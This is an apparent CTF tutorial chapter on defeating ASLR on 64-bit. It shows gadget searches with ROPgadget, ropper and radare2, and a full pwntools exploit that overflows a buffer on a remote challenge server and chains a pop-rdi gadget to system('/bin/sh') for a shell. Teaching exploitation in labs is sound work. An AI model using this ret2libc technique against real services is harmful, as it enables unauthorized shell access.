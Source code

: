 ```yaml
---
description: Beating ASLR again, using 64-bit this time.
---
```


# stepup

{% file src="../../.gitbook/assets/stepup.zip" %}

This binary is similar to the last one, so we'll be reusing most of the same techniques. This time, we'll need a way to pass the `/bin/sh` address into `rdi`, which will require a gadget to do this.

### Getting our Gadget

We'll do this the same way that we did it in the ROP chapter. We use `ROPgadget` or `ropper` to search for a gadget that will pop the top of the stack into `rdi`:

{% tabs %}
{% tab title="ROPgadget" %}
```nasm
$ ROPgadget --binary stepup | grep "pop rdi"
0x00000000004011db : pop rdi ; ret
```
{% endtab %}

{% tab title="ropper" %}
```nasm
$ ropper -f stepup --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: stepup
0x00000000004011db: pop rdi; ret; 
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x00401169]> /R pop rdi
  0x004011db                 5f  pop rdi
  0x004011dc                 c3  ret
```
{% endtab %}
{% endtabs %}

This is perfect. We'll use this gadget to pop the address of `/bin/sh` into `rdi` before calling `system()`.

### Writing the Exploit

This binary is nearly identical to the last one. We are provided the address of `system()`, so we can just use that directly. Checking `read_in`, we'll notice that it takes `40` bytes to reach the return pointer.

This is everything we need to write the exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./stepup')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6200)

p.recvuntil(b'at: ')
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.system
log.success(f'LIBC base: {hex(libc.address)}')

g_popRdi = 0x4011db

payload = b'A' * 40
payload += p64(g_popRdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gets our flag! We beat ASLR in 64-bit, which was no different than in 32-bit. The only difference is that we had to use 64-bit gadgets and addresses.
